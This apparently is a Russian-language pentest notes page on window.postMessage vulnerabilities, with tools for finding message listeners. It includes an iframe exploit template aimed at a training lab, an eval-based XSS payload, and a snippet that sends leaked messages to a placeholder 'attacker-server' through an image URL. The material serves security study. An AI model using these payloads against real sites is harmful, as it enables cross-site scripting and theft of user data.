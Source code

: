 # window.postMessage

## Intro: что такое postMessage

Это метод `cross-origin` коммуникации между элементами `Window`: между страницей и всплывающим окном этой страницы, между страницей и `iframe`, встроенным в нее, и тп

Обычно, скрипты имеют доступ к друг другу на разных страницах если, и только если, имеют одинкавый протокол, хост и порт ([same-origin policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin\_policy)). `postMessage` дает безопасный способ обойти это ограничения (если правильно использовать).

В общем, одно окно может получить ссылку на другое (например, через `targetWindow = window.opener`), а затем отправить ему `MessageEvent` с помощью `targetWindow.postMessage()`. Получающее окно тогда свободно обрабатывать это событие по мере необходимости. Аргументы, передаваемые в `window.postMessage()` (то есть «сообщение»), открываются принимающему окну через объект события.

Общий exploit для страницы, на которой открыт web message communication

```markup
<html>
    <head>
        <title>DOM based vulns</title>
    </head>
    <body>
        <script>
            function callback() {
                document.getElementById('target_website').contentWindow.postMessage('my data to web message listener', '*');
            }
        </script>
        <iframe id="target_website" onload="callback()" src="https://0abf00eb04791b73c0d62af8001a00d0.web-security-academy.net/">
        </iframe>
    </body>
</html>
```

## MessageChannel

Это расширение для Post Messages, с помощью которого можно не ограничивать CORS'ы.

TODO: почитать подробнее [https://developer.mozilla.org/en-US/docs/Web/API/MessageChannel](https://developer.mozilla.org/en-US/docs/Web/API/MessageChannel)

## К чему может привести неправильное использование

### XSS

Где-то обрабатывается message:

```javascript
function (b){b.data.evalCall&&eval("("+b.data.evalCall+")")}
```

Мы отправляем сообщение

```javascript
b.postMessage({"evalCall":"alert(document.domain)"},"*")
```

Это возможно, если секция вызова postMessage является уязвимой или настройка CORS на принимающей стороне является уязвимой.

### Leak Sensitive Data

vuln page

```javascript
function parent_getUserInfo()
{
   var userdata=[name,age, ...];
   parent.postMessage(userdata);
}
```

attacker

```markup
<img src="http://attacker-server/?" id=message> 
<script>
 window.onmessage = function(e){  
  document.getElementById("message").src += "&"+e.data;
 }
</script>
```

## Tools

Есть инструмент для мониторинга использования postMessages - [https://github.com/fransr/postMessage-tracker](https://github.com/fransr/postMessage-tracker)

Оформлена как Google extension (но и в ff стартует вроде тож)



To exploit the postMessage() vulnerabilities, first, it is required to know if the target application is using web messaging or not. If the target application uses web messaging, it is essential to identify the various listeners. There are several methods to do so, including:

1. **Searching for the keywords:** Use the developer tool’s global search option to search for specific keywords such as **postMessage(), addEventListener(“message, .on(“message”** in the javascript files.
2. **Using** [**MessPostage**](https://github.com/Sjord/messpostage) **Browser Extension:** Using this extension is an easy way to detect whenever an application usage postMessage() APIs. This also shows which messages were sent and where event listeners have been added:
3. **Using Developer Tools:** The “Global Listener” feature present in the “Sources” pane of Developer tools can be used to identify the use of postMessage(). After opening the Global Listener, click on “messages” to view the message handlers.
4. **Using** [**Posta**](https://github.com/benso-io/posta)**:** Posta is a tool for researching Cross-document Messaging communication. It allows you to track, explore and exploit `postMessage` vulnerabilities, and includes features such as replaying messages sent between windows within any attached browser.
5. **Using** [**PMHook**](https://github.com/yehgdotnet/postmessagehook)**:** PMHook is a client-side JavaScript library designed to be used with TamperMonkey in the Chrome web browser. Executed immediately at page load, PMHook wraps the **EventTarget.addEventListener** method and logs any subsequent message event handers as they are added. The event handler functions themselves are also wrapped to log messages received by each handler.

Если надо проверить быстренько, что post messages шлются на странице, можно в консоли вбить и ловить сообщения:

```
window.addEventListener('message', data => console.log(data))
```
